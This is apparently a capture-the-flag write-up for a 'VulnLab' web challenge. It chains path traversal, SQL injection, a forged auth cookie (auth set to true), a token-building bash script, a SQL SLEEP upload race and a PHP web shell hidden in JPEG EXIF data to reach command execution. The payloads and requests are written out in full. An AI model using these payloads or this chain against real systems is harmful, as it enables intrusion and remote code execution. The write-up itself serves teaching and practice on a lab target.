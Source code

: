 # VulnLab

<figure><img src="../../.gitbook/assets/vulnlab/pic8.png" alt=""><figcaption></figcaption></figure>

Upon browsing our VulnLab instance we immediately notice a request to `/thumbnail?file=bg2.jpg`. The first thing that comes to mind is of course path traversal. In fact if we request `/etc/passwd` with a classic payload we get an error message:

```
GET /thumbnail?file=../../../../../../../etc/passwd HTTP/1.1

Reading content from this directory is denied
```

which is different from say this one:

```
GET /thumbnail?file=../../../../../../../tmp/foobar HTTP/1.1

File doesn't exist
```

We keep this information in mind for the moment: it will be useful later. The second thing that stands out are requests to an `/analytics` endpoint:

```
GET /analytics?page=/news/1 HTTP/1.1
```

It's easy to see that `/analytics` is vulnerable to SQL injection so we can dump the db where we find a users table:

```
Database: vulnlab
Table: user
[1 entry]
+----+----------------------------------+-----------+
| id | password                         | username  |
+----+----------------------------------+-----------+
| 1  | ******************************** | bob.jones |
+----+----------------------------------+-----------+
```

The hash did not crack - at least for me - but now we have a valid username we can use and try bruteforcing the login form:

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Finding a valid password is of course left as an exercise to the reader, but like in any Adam's challenge, when bruteforce is involved you can just use wordlists suggested on HackingHub.io.

We now have a new endpoint `/account/files` that lists our user's medical results:

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

```
GET /account/files HTTP/1.1

{"files":[{"link":"\/uploads\/bob.jones\/medical-report-to-complete.pdf","name":"medical-report-to-complete.pdf","extension":"pdf","size":60154}]}
```

Here we notice that we have "files" list where bob.jones, our username, is somehow involved in the path.

More importantly, upon logging in we have a strange cookie that contains some useful information:

```
Cookie: token=eyJkYXRhIjoiZXlKcFpDSTZNaXdpZFhObGNtNWhiV1VpT2lKaWIySXVhbTl1WlhNaWZRPT0iLCJhdXRoIjoiNmI3ZjZjYzI0NjhjNzBhN2U5N2I0MjM3ZGEyMDBmY2YifQ%3D%3D
```

The cookie decodes to

```
{"data":"eyJpZCI6MiwidXNlcm5hbWUiOiJib2Iuam9uZXMifQ==","auth":"6b7f6cc2468c70a7e97b4237da200fcf"}
```

and the info inside the JSON data attribute decodes to:

```
{"id":2,"username":"bob.jones"}
```

Maybe if we are able to change the data inside the cookie to a path traversal payload like `"username"="../../../../etc/passwd"`, we can try to read arbitrary files.

This part can be tricky: the auth hash authenticates the information inside the data attribute of our JSON. Without knowing some secret information we cannot alter what's inside data. But we can fool the hash validation by changing the "auth" string with a boolean true:

```
{"data":"eyJpZCI6MiwidXNlcm5hbWUiOiJib2Iuam9uZXMifQ==","auth":true}
```

Notice that here we are using a "counterfit" token:

```
GET /account/files HTTP/1.1
Cookie: token=eyJkYXRhIjoiZXlKcFpDSTZNaXdpZFhObGNtNWhiV1VpT2lKaWIySXVhbTl1WlhNaWZRPT0iLCJhdXRoIjp0cnVlfQ%3d%3d

{"files":[{"link":"\/uploads\/bob.jones\/medical-report-to-complete.pdf","name":"medical-report-to-complete.pdf","extension":"pdf","size":60154}]}
```

This not only works without giving errors, but it allows us to alter the inner content of the data attribute. Using a very handy burp extension which is called Hackvector (or of course constructing payloads manually) we can use something like this:

```
GET /account/files HTTP/1.1
Host: veap5r6i.eu1.ctfio.com
Cookie: token=<@burp_urlencode><@base64>{"data":"<@base64>{"id":2,"username":"../../../../../../../etc/passwd"}<@/base64>","auth":true}<@/base64><@/burp_urlencode>

{"error":"Not a valid directory"}
```

and we get an interesting error. What if we try to look at /etc or /tmp?

```
GET /account/files HTTP/1.1
Host: veap5r6i.eu1.ctfio.com
Cookie: token=<@burp_urlencode><@base64>{"data":"<@base64>{"id":2,"username":"../../../../../../../etc"}<@/base64>","auth":true}<@/base64><@/burp_urlencode>

{"files":[{"link":"\/uploads\/..\/..\/..\/..\/..\/..\/..\/etc\/.pwd.lock","name":".pwd.lock","extension":"lock","size":0},{"link":"\/uploads\/..\/..\/..\/..\/..\/..\/..\/etc\/X11","name":"X11","extension":"","size":4096},{"link":"\/uploads\/..\/..\/..\/..\/..\/..\/..\/etc\/adduser.conf","name":"adduser.conf","extension":"conf","size":3028},...
```

Interestingly enough we have a way to list directories.

If you want to play around an alternative way is using a simple bash script:

{% code title="lfi-exploit.sh <domain> <path>" lineNumbers="true" %}
```bash
#!/bin/sh

inside='{"id":2,"username":"'$2'"}'
inside=$(/bin/echo -n $inside | base64)
token=$(/bin/echo -n '{"auth":true,"data":"'$inside'"}' |base64)


echo $token
curl $1/account/files -H "Cookie: token=$token" | jq
curl $1/account/files -H "Cookie: token=$token" | jq  -r '.files[] |.link'
```
{% endcode %}

For flag number 2 it's enough to list `../` to find a secret file.

But now what? Remember that at this point we have three things that we have to put together to reach a much better result (RCE in the end):

1. a SQL injection on `/analytics?page=/news/1`;
2. the possibility to list directories, and in particular `/tmp`;
3. maybe (we are not sure yet), the possibility to include files from `/tmp` directory via `/thumbnail?file=../../../../../../../tmp/foobar`.

Are we able to upload files to /tmp? Sure: during file upload PHP, the language of choice by Adam, creates temporary files under /tmp. Files have a random name, so it will be hard to list /tmp/ with the second vulnerability unless we can also let the server SLEEP during upload using the SQL injection. So we can try something like this:

```
POST /analytics?page=a';SELECT+SLEEP+(60)%23 HTTP/1.1
...
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoy6htU17IDYnPK7v
Content-Length: 221

------WebKitFormBoundaryoy6htU17IDYnPK7v
Content-Disposition: form-data; name="file_to_upload"; filename="shell.php"
Content-Type: text/php

<?php system($_GET['cmd']); ?>
------WebKitFormBoundaryoy6htU17IDYnPK7v--
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

this gives us 60 second to list files under /tmp/:

```
GET /account/files HTTP/1.1
Cookie: token=<@burp_urlencode><@base64>{"data":"<@base64>{"id":2,"username":"../../../../../../tmp/"}<@/base64>","auth":true}<@/base64><@/burp_urlencode>
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

So now it's just a matter of including what we uploaded and...

```
GET /thumbnail?file=../../../../../../../tmp/phpzaP6ow HTTP/1.1

HTTP/1.1 200 OK
Server: nginx/1.22.0 (Ubuntu)
Date: Sat, 06 Jul 2024 15:02:10 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Content-Length: 22

Not a valid image file
```

we need to overcome the last defense with a real image that also contains actual php code.

Please note that a valid jpg image is necessary because, as you will see once you have a shell, there is this restriction in place:

```php
if (@exif_imagetype($file)) {
	header('Content-Type: image/jpg');
	include_once($file);
} else {
	die("Not a valid image file");
}
```

I order to facilitate the process we can create a very simple form on our machine to do the POST:

```html
<form method="post" enctype="multipart/form-data" action="https://xyz.eu1.ctfio.com/analytics?page=a';SELECT SLEEP(300)-- -">
        <input type="file"  name="file_to_upload" >
        <input type="submit" name="submit">
        </form>
```

and before uploading a real jpg we can insert in it a PHP payload with exiftool:

```bash
exiftool  -author='<?php system($_GET["cmd"]); ?>' test.jpg
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

This part can be quite tricky but in the end you will have command exectuion and you can also grab a valid shell

```bash
www-data@3af02839d4cf:/$ wc -c /flag.txt
46 /flag.txt
```

